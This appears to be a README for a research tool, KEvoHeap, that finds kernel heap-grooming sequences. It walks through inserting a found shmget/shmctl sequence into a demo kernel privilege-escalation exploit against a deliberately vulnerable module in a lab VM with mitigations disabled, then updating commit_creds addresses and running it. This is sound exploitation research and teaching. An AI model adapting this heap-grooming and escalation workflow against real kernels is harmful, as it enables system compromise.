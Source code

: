 # Example Exploit

The demo exploit `./exploit/demo_exploit_with_noise.c` performs heap layout manipulation to shape the heap into an exploitable state. It uses the `shmget/shmctl` system calls to allocate objects in the kmalloc-256 cache. These calls trigger (de)allocations of `struct shmid_kernel` objects, which are of appropriate size. A suiting series of allocations and deallocations can be found with KEvoHeap. To do this, follow the steps under "Run KEvoHeap+QEMU+BPFTrace" in [RUNNING_KEVOHEAP.md](https://github.com/fkie-cad/Algorithmic-Heap-Layout-Manipulation-in-the-Linux-Kernel/blob/main/RUNNING_KEVOHEAP.md). 

KEvoHeap will generate candidates consisting of calls to the kernel module and `shmget/shmctl`, which will then be inserted into a general corpus programm which takes care of setup and teardown (cf. [/hlm.template](https://github.com/fkie-cad/Algorithmic-Heap-Layout-Manipulation-in-the-Linux-Kernel/blob/main/hlm.template)). The generated candidates are then build and executed in the QEMU VM. The distance of the target objects gets extracted via `bpftrace` and fed back to KEvoHeap. When a correct sequence has been found, it can be used in an exploit to perform the neccessary allocations to place both target objects next to each other. For testing, you can use one of the demo exploits and replace the existing allocation directives with the sequence found by KEvoHeap.

For simplicity's sake, the exploit assumes that SMEP, SMAP and KPTI are disabled. This is the case in the VM that you setup in the instructions in [RUNNING_KEVOHEAP.md](https://github.com/fkie-cad/Algorithmic-Heap-Layout-Manipulation-in-the-Linux-Kernel/blob/main/RUNNING_KEVOHEAP.d)

### Use result from KEvoHeap

A result from KEvoHeap could look like this:
```bash
$./bpf_evo_runner.sh
[*] Starting try number 1
...
Ping...
Ping...
Ping...
Ping...
...
Ping...
Ping...
Ping...
Ping...
Going into next gen after 72 tries
[!] Found solution!
int fengshui318 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui573 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui956 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui628 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui230 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui1249 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui569 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui1518 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui984 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui956, IPC_RMID, NULL);
shmctl(fengshui984, IPC_RMID, NULL);
shmctl(fengshui569, IPC_RMID, NULL);
shmctl(fengshui230, IPC_RMID, NULL);
sleep(1);
int fengshui370 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui318, IPC_RMID, NULL);
shmctl(fengshui1249, IPC_RMID, NULL);
sleep(1);
int fengshui1608 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui628, IPC_RMID, NULL);
sleep(1);
int fengshui1319 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui1518, IPC_RMID, NULL);
sleep(1);
int fengshui189 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui573, IPC_RMID, NULL);
shmctl(fengshui1608, IPC_RMID, NULL);
sleep(1);
int fengshui625 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui1319, IPC_RMID, NULL);
shmctl(fengshui189, IPC_RMID, NULL);
sleep(1);
int fengshui1253 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
int fengshui934 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
shmctl(fengshui625, IPC_RMID, NULL);
shmctl(fengshui370, IPC_RMID, NULL);
shmctl(fengshui934, IPC_RMID, NULL);
shmctl(fengshui1253, IPC_RMID, NULL);
sleep(1);
int fengshui61 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
ioctl(fd, VULN_ALLOC_OVERFLOW);
ioctl(fd, VULN_ALLOC_TARGET);

Fitness: 256
```

This solution can now be used in `demo_exploit_with_noise.c` for the function `do_heap_layout_manipulation(int fd)`. This means we will exchange the given content from `do_heap_layout_manipulation(int fd)` with the result from KEvoHeap:
```bash
$ vim +161 demo_exploit_with_noise.c
...
void do_heap_layout_manipulation(int fd){
    # remove the content and change it to
}
...
void do_heap_layout_manipulation(int fd){
	int fengshui318 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui573 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui956 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui628 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui230 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui1249 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui569 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui1518 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui984 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui956, IPC_RMID, NULL);
	shmctl(fengshui984, IPC_RMID, NULL);
	shmctl(fengshui569, IPC_RMID, NULL);
	shmctl(fengshui230, IPC_RMID, NULL);
	sleep(1);
	int fengshui370 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui318, IPC_RMID, NULL);
	shmctl(fengshui1249, IPC_RMID, NULL);
	sleep(1);
	int fengshui1608 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui628, IPC_RMID, NULL);
	sleep(1);
	int fengshui1319 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui1518, IPC_RMID, NULL);
	sleep(1);
	int fengshui189 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui573, IPC_RMID, NULL);
	shmctl(fengshui1608, IPC_RMID, NULL);
	sleep(1);
	int fengshui625 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui1319, IPC_RMID, NULL);
	shmctl(fengshui189, IPC_RMID, NULL);
	sleep(1);
	int fengshui1253 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	int fengshui934 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	shmctl(fengshui625, IPC_RMID, NULL);
	shmctl(fengshui370, IPC_RMID, NULL);
	shmctl(fengshui934, IPC_RMID, NULL);
	shmctl(fengshui1253, IPC_RMID, NULL);
	sleep(1);
	int fengshui61 = shmget(IPC_PRIVATE, 1024, IPC_CREAT);
	ioctl(fd, VULN_ALLOC_OVERFLOW);
	ioctl(fd, VULN_ALLOC_TARGET);
}

```


### Update addresses

The hard coded adresss of `commit_creds` and `prepare_kernel_cred` needs to be updated with the current running kernel as written in the function `escalate_privs(void)`. Normally these addresses should be resolved dynamically but in this case we want to focus on the heap layout manipulation.

```bash
$ sudo grep "T commit_creds" /proc/kallsyms
ffffffffb16effc0 T commit_creds 
$ sudo grep "T prepare_kernel_cred" /proc/kallsyms
ffffffffb16f0290 T prepare_kernel_cred
```

Next we can update the adresses:
```bash
$ vim +102 demo_exploit_with_noise.c
```

### Run exploit

Now after we updated the results compile the exploit and run it. Assuming that you are working on the VM that was set up for KEvoHeap, you want to make sure to use the user account "MyUser" instead of root.
```bash
$ make noise # Build the exploit
gcc demo_exploit_with_noise.c  -o demo_exploit_with_noise -static
$ cd ..
$ ./scp_to_user.sh ./exploit # Copy the folder to the user directory
$ ./user_ssh.sh # Login to vm as 'MyUser'
$ cd exploit
$ chmod +x demo_exploit_with_noise
$ ./demo_exploit_with_noise
```
